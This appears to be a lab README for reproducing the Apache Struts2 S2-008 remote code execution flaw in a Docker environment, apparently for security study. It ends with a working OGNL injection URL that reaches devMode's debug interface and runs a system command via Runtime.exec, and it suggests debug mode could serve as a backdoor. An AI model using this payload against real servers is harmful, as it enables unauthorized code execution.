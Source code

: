 # S2-008 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.1

Details: http://struts.apache.org/docs/s2-008.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 involves multiple vulnerabilities. Cookie interceptor configuration problem can cause OGNL expressions execute, but most web containers (such as Tomcat) have character restrictions for cookie names, some key characters cannot be used. Another point is that if the struts2 turn on `devMode` mode, there are multiple debug interfaces that can directly view object information or execute commands. As Kxlzx(author) mentions, this situation is almost impossible in the real environment. So it becomes It's very useless, but I don't think it's absolute. It's possible to hack a struts2 application that turn on `debug` mode on the server as a backdoor.

> For example, adding the parameter in `devMode`mode `?debug=command&expression=<OGNL EXP>` will directly execute the following OGNL expression and you can execute the command:

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

